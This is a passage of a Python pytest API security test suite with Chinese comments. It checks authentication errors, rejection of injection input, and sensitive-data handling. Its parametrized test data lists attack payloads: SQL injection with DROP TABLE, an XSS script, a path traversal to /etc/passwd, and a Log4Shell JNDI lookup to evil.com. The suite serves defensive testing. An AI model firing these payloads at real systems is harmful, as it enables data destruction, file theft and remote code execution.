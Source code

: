 ```python
                    assert_response(response).has_status_code(401)

                    # 验证错误消息
                    error_data = response.json_safe({})
                    assert "unauthorized" in str(error_data).lower() or \
                           "authentication" in str(error_data).lower(), \
                           f"端点 {endpoint} 未返回适当的认证错误消息"

        finally:
            # 恢复认证头
            if original_auth:
                self.client.set_header('Authorization', original_auth)

    @pytest.mark.security
    @pytest.mark.parametrize("injection_payload", [
        "'; DROP TABLE users; --",
        "' OR '1'='1",
        "<script>alert('xss')</script>",
        "../../etc/passwd",
        "${jndi:ldap://evil.com/a}"
    ])
    @allure.story("注入攻击防护")
    @allure.title("SQL注入和XSS防护测试")
    def test_injection_attack_protection(self, injection_payload, user_data):
        """测试注入攻击防护"""

        with allure.step(f"使用注入载荷测试: {injection_payload}"):
            # 在用户数据中注入恶意载荷
            malicious_data = user_data.copy()
            malicious_data["username"] = injection_payload
            malicious_data["email"] = f"test+{injection_payload}@example.com"

            allure.attach(
                injection_payload,
                name="注入载荷",
                attachment_type=allure.attachment_type.TEXT
            )

        with allure.step("发送包含恶意载荷的请求"):
            response = self.client.post("/users", json=malicious_data)

        with allure.step("验证系统安全防护"):
            # 系统应该拒绝恶意输入或安全处理
            assert response.status_code in [400, 422], \
                f"系统应该拒绝恶意输入，但返回了状态码 {response.status_code}"

            # 如果创建成功，验证数据已被安全处理
            if response.status_code == 201:
                created_user = response.json()
                assert created_user["username"] != injection_payload, \
                    "恶意载荷未被过滤或转义"

    @pytest.mark.security
    @allure.story("敏感数据保护")
    @allure.title("敏感信息泄露测试")
    def test_sensitive_data_protection(self, user_data):
        """测试敏感信息保护"""

        with allure.step("创建用户账户"):
            registration_data = user_data.copy()
            registration_data["password"] = "SecretPassword123!"
            registration_data["ssn"] = "123-45-6789"  # 敏感信息

```
